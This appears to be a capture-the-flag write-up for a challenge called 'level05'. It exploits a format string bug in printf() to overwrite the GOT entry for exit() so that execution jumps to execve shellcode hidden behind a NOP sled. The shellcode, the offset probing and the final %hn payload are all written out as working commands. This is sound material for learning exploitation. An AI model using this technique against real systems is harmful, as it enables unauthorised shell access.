 # Overwrite Got with shell code

## Context

First call to fgets() secure:

```c
  byte buffer_100 [100];
  fgets((char *)buffer_100,100,stdin);
```

But then it call a printf() insecure:

exit() ? overwrtei got section

```c
      printf((char *)buffer_100);
      exit(0);
```

## Overwrite exit
 
Find exit address and overwrite with shell address

```bash
$> objdump -R ./level05 | grep exit
080497e0 R_386_JUMP_SLOT   exit
```

Lets find the buffer place to overwrite exit func

```bash
./level05 
AAAA%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x
aaaa64.f7fcfac0.0.0.0.0.ffffffff.ffffd674.f7fdb000.61616161.[...]
```

Buffer is the 10th address on the stack.

### Build final exploit

Export shell code :

```bash
export SHELLCODE=$(python2.7 -c 'import sys; sys.stdout.write(b"\x90" * 0xffff + b"\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80")')
```

Payload : address exit + (address exit + 2 bytes) + padding1 + %10$hn + padding2 + %11$hn

- env buffer address = 0xfffee2c0

Split the value in two parts:

- fffe = 65534
- e2c0 = 58048
- padding1 = 58048 - 8 byte wrote = 58040
- padding2 = 58048 - 65534 = 7486

```bash
cat <(python2.7 -c 'import sys; sys.stdout.write(b"\xe0\x97\x04\x08" + b"\xe2\x97\x04\x08" + b"%58040x" + b"%10$hn" + b"%7486x" + b"%11$hn")') - | ./level05
```